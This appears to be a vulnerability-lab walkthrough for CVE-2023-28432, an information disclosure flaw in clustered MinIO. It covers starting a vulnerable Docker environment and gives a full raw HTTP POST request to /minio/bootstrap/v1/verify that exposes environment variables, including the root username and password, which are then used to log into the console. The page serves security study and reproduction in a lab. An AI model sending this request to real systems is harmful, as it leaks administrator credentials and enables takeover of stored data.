


MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)¶
MinIO is a High Performance Object Storage released under GNU Affero General Public License v3.0.
In the version before RELEASE.2023-03-20T20-16-18Z, there is an information disclosure vulnerability if MinIO is deployed in cluster mode. An attacker can use an HTTP request to obtain all environment variables of the target process, including MINIO_ROOT_USER and MINIO_ROOT_PASSWORD.
References:
- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
Vulnerable Environment¶
Executing following commands to start a MinIO cluster:
docker compose up -d
After the cluster has been started, you can browse Web console on http://your-ip:9001, API server on http://your-ip:9000.
Vulnerability Reproduce¶
The issue exists in the API endpoint http://your-ip:9000/minio/bootstrap/v1/verify. Send the request to retrieve all environment variables:
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

It can be seen that MINIO_ROOT_USER and MINIO_ROOT_PASSWORD is exposed.
Success to use this username and password to login the Web console:
